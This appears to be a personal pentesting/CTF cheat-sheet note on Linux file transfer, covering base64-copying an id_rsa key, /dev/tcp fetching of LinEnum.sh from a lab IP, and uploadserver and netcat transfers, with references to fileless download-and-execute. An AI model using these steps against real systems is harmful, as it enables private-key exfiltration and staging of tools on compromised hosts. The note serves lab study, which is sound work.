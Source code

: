 # Linux File Transfer

## Overview

What this technique is and when I need it

## Downloading

### Base64 Encoding

**Step 1:** Check the MD5 hash of the contents.
```bash
md5sum id_rsa
```

**Step 2:** Encode contents to base64 and copy it to clipboard.
```bash
cat id_rsa | base64 -w 0; echo
```

**Step 3:** On the second Linux machine, decode the Base64 file content.
```bash
echo -n 'encoded' | base64 -d > id_rsa
```

**Step 4:** Confirm the MD5 hash matches.
```bash
md5sum id_rsa
```

### wget

#### Method 1: Download

Download a file.
![[wget#^simple-download]]

#### Method 2: Download - Fileless

Download and execute a file in memory (fileless).
![[wget#^fileless-download]]

### cURL

#### Method 1: Download

Download a file.
![[curl#^simple-download]]

#### Method 2: Download - Fileless

Download and execute a file in memory (fileless).
![[curl#^fileless-download]]

### Bash

#### Method 1: /dev/tcp

**Step 1:** Connect to the target webserver.
```bash
exec 3<>/dev/tcp/10.10.10.32/80
```

**Step 2:** Send a HTTP GET request for the file.
```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

**Step 3:** Print the response.
```bash
cat <&3
```

### SSH

#### Method 1: SCP

![[SCP#^download-file-from-linux]]

### Code
#### Method 1: Python

**Step 1:** Create a webserver
![[Python#^python3-webserver]]

**Step 2:** Download a file.
![[Python#^download-remote-file]]

#### Method 2: PHP

**Step 1:** Create a webserver.
![[PHP#^create-webserver]]

**Step 2:** Download a file.
![[PHP#^download-remote-file]]

#### Method 3: Ruby

**Step 1:** Create a webserver.
![[ruby#^create-webserver]]

**Step 2:** Download a file.
![[ruby#^download-remote-file]]

#### Method 4: Perl

**Step 1:** Create a webserver.
![[Perl#^create-webserver]]

**Step 2:** Download a file.
![[Perl#^download-remote-file]]


## Uploading

### HTTP

#### Method 1: uploadserver

**Step 1:** Create a Self-Signed Certificate
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

**Step 2:** Start the webserver
```bash
mkdir www && cd www; sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

**Step 3:** Upload files.
![[curl#^upload-multiple-files-insecure]]

### SSH

#### Method 1: SCP

![[SCP#^upload-file-to-linux]]

### Python

#### Method 1: uploadserver

**Step 1:** Start the webserver
![[Python#^uploadserver]]

**Step 2:** Upload a file.
![[Python#^upload-file]]

### Netcat

**Step 1:** On one Linux machine, open a listener to write the expected file data.
![[netcat#^receive-file-over-tcp]]

**Step 2:** On the other machine, send the file.
![[netcat#^send-file-over-tcp]]

### Ncat

**Step 1:** On one Linux machine, open a listener to write the expected file data.
![[netcat#^receive-file-over-tcp]]

**Step 2:** On the other machine, send the file.
![[netcat#^send-file-over-tcp]]



## Practical Examples

Real-world scenarios where I've used this

## Troubleshooting

- Common issues I've encountered
- Things that break this technique
- Environment-specific considerations

## Related Techniques

- [[Similar-Technique]] - How they differ
- [[Follow-up-Technique]] - What comes next

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #linux-file-transfer
SORT file.ctime DESC
LIMIT 5
```

## Learning Resources

- 

#linux-file-transfer #technique